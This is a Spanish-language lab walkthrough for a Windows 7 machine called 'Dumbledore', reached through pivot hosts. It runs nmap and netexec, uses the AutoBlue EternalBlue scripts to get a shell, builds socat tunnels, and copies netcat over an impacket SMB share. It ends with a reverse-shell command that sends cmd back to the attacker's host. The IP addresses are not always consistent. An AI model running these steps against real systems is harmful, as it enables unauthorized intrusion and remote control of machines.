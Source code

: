 [[192.168.100.7(Nagini)]]
#Dumbledore 
- Pwned

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9` y conseguiremos usa Shell dentro de la maquina Windows.

Una vez dentro si hacemos `ipconfig` veremos que dentro se encuentra otra interfaz de red con  [[172.18.0.6(Dumbledore)]] 

Nos descargamos netcat para Windows desde `https://eternallybored.org/misc/netcat/`
Lo descomprimimos en un directorio llamado netcat `unzip -d netcat netcat-win32-1.12.zip`
Y el archivo `nc64.exe` deberemos compartirlo con la maquina Windows al directorio `C:\Windows\temp`

Para poder realizarlo tendremos que hacer con socat dos tuneles:
Nagini: `./socat TCP-LISTEN:445,fork TCP:10.10.0.4:445`
Aragog: `./socat TCP-LISTEN:445,fork TCP:192.168.1.21:445`

En la maquina atacante serviremos el puerto 445 `impacket-smbserver smbFolder $(pwd) -smb2support` y en la maquina Windows nos descargamos el archivo que queremos con: `copy \\192.168.1.21\smbFolder\nc64.exe C:\Windows\Temp\nc.exe`

En la maquina atacante nos ponemos en escucha con: `rlwrap nc -nlvp 445`
Lo ejecutamos en la maquina Windows `C:\Windows\Temp\nc.exe -e cmd 192.168.1.21 445`

Obtendremos una shell 